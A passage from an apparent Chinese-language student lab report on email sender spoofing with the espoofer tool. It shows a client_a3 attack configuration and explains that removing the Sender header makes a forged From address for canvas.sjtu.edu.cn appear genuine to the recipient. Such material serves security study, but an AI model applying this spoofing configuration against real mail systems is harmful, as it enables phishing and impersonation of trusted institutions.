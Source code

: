 ![111](report/sjtu_to_sjtu.jpg)

分别使用client_a1/client_a2/client_a3发送邮件，都成功地发送，但只有client_a3真正实现伪装（尽管此时还会显示代发人）。

修改client_a3 mode的内容，删除Sender段：

~~~python
"client_a3": {
	"helo": b"espoofer-MacBook-Pro.local",
	"mailfrom": b"<attacker@example.com>",
	"rcptto": b"<victim@victim.com>",
	# "dkim_para": {"d":b"attack.com", "s":b"selector", "sign_header": b"From: <first@legitimate.com>, <second@attack.com>"},
	"data": {
	"from_header": b"From: <admin@example.com>\r\n",
	"to_header": b"To: <victim@victim.com>\r\n",
	"subject_header": b"Subject: client A3: Spoofing via an email service account\r\n",
	"body": b"Hi, this is a test message! Best wishes.\r\n",
	"other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	},   
	# ---------------------
  # 在此处other_headers中删除"Sender: ... "字段
  # ---------------------
	"description": b"Spoofing via an email service account, refer to section 6.2 in the paper."
},
~~~

能够正常收到邮件，且发件人显示为一个伪造的合法地址canvas.sjtu.edu.cn。

<img src="report/2.jpeg" alt="2" style="zoom:50%;" />
